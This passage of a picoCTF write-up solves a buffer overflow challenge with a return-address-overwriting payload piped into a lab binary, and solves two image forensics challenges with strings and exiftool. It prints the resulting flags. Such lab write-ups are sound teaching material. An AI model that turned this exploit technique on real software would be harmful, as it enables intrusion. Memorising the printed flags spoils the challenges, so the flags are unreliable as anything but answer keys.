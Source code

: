 We just have to overwrite the return address with the address of flag.

Get the address of flag
```
$ objdump -d ./vuln | grep flag
080485e6 <flag>:
 8048618:       75 1c                   jne    8048636 <flag+0x50>
```
The address of the flag() function is 0x80485e6

Intel x86 uses little endian so use e6 85 04 08  when overwriting the ret address

```
$ echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD\xe6\x85\x04\x08' | ./vuln
Give me a string and lets see what happens:
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5fe1ff3d8}Segmentation fault (core dumped)
```
We use more than 64 bytes because there's some padding and other stuff we have to overwrite before we hit the return address (like the saved EBP). Experiment with different amounts of A's to see how many bytes are needed to reach the ret address.

## So Meta - Forensics 
Grep to win
```
$ strings  pico_img.png | grep pico
picoCTF{s0_m3ta_43f253bb}
```

or use exiftool to look at metadata
```
$ exiftool pico_img.png | grep pico
File Name                       : pico_img.png
Artist                          : picoCTF{s0_m3ta_43f253bb}
```

## What Lies Within - Forensics
```
$ strings buildings.png | grep pico # Always grep to win
$ file buildings.png
buildings.png: PNG image data, 657 x 438, 8-bit/color RGBA, non-interlaced
$ exiftool buildings.png # Check the metadata
ExifTool Version Number         : 10.80
File Name                       : buildings.png
Directory                       : .
File Size                       : 611 kB
File Modification Date/Time     : 2019:09:28 10:54:24-04:00
File Access Date/Time           : 2020:05:05 16:41:04-04:00
File Inode Change Date/Time     : 2020:05:05 16:41:04-04:00
File Permissions                : rw-rw-rw-
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 657
Image Height                    : 438
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Image Size                      : 657x438
Megapixels                      : 0.288
```
Gynvael tries editing the headers to see if there are any hidden rows, opening in GIMP to see if any of the channels have data, and tries adjusting the color curves.